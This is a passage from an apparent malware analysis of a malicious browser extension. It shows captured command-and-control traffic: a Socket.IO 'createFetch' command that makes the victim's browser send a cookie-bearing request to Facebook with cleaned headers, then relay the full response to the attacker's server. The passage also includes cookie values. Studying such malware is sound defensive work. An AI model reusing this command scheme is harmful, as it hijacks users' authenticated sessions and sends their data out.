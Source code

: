 ```
Server -> Client
42["createFetch",{"callBack":"initCallBackFB","uri":"https://www.facebook.com/","attr":
{"credentials":"include","headers":{"accept":"text/html,application/xhtml+xml,application/
xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
"origin-zzz":"https://www.facebook.com","sec-fetch-dest":"document",
"sec-fetch-mode":"navigate","se-zzzc-fetch-site":"same-origin","se-zzzc-fetch-user":"?1",
"upgrade-insecure-requests":"1"},"referrerPolicy":"no-referrer-when-downgrade","body":null,
"method":"GET","mode":"cors"}}]
```

Looking at the Socket.IO docs, a message type of 42 is read as "engine: 4, socket: 2" and is referenced as MESSAGE_EVENT - so it seems that our malicious extension is being told to perform an action (a `createFetch` event, whatever that means). Though it didn't take much wondering, as my browser sprang to life and made a request to Facebook:

```
Host: www.facebook.com
Connection: close
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
upgrade-insecure-requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11) AppleWebKit/601.1.27 (KHTML, like Gecko) Chrome/47.0.2526.106 Safari/601.1.27
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: sb=djl9XybrliHbaXtut9kQZ5f-; fr=105lau0rVCvNUPaQy.AWVtW4Eyu8OUoPBfn0On9TJgvQM.BffTl2.0k.AAA.0.0.BffT6F.AWUj8rhsvQE
origin: https://www.facebook.com
sec-fetch-user: ?1
```

What's important to note here is that the headers are set to innocuous values. While the initial requests to `www.useragentswitch.com` included an Origin header which included the Chrome extension ID, this request was "clean" and contained no such trace. Further, the odd `-zzz` strings sent in the WebSocket event have disappeared - probably by some filtering and reconstruction locally.

After receiving a response from Facebook, my browser forwards the entire response back to the server as another MESSAGE_EVENT, this time with a key of `initCallBackFB` (which was specified in the `callBack` key of the original `createFetch` event). I've omitted the Content Security Policy and HTML from the response for brevity:

```
Client -> Server
42["initCallBackFB",{"headerEntries":[["alt-svc","h3-29=\":443\"; ma=3600,h3-27=\":443\"; 
ma=3600"],["cache-control","private, no-cache, no-store, must-revalidate"],["connection",
"close"],["content-security-policy","<FACEBOOK CSP OMITTED FOR BREVITY>"],["content-type",
"text/html; charset=\"utf-8\""],["date","Wed, 07 Oct 2020 05:11:02 GMT"],["expires","Sat, 01 
Jan 2000 00:00:00 GMT"],["pragma","no-cache"],["strict-transport-security","max-age=15552000; 
preload"],["vary","Accept-Encoding"],["x-content-type-options","nosniff"],["x-fb-debug",
"0e7D12VGda2oR5J84JmIore1H9pXLIstEI084Ex/MpeTOqgOaaEY7n7HU5L/YgcT0NVxFAfs0HT7B0gpXPfTJQ=="],
["x-frame-options","DENY"],["x-xss-protection","0"]],"data":"<HTML OMITTED FOR BREVITY>",
"ok":true,"status":200}]
```
